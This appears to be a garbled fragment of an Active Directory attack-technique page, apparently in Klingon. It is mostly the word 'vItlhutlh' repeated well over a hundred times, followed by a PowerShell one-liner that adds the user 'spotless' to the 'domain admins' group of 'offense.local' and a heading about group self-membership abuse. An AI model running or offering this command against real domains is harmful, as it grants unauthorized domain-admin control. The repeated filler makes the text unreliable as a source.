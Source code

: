 vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh
```powershell
net user spotless /domain; Add-NetGroupUser -UserName spotless -GroupName "domain admins" -Domain "offense.local"; net user spotless /domain
```
## **Self (Self-Membership) on Group**
**tlhIngan Hol:**
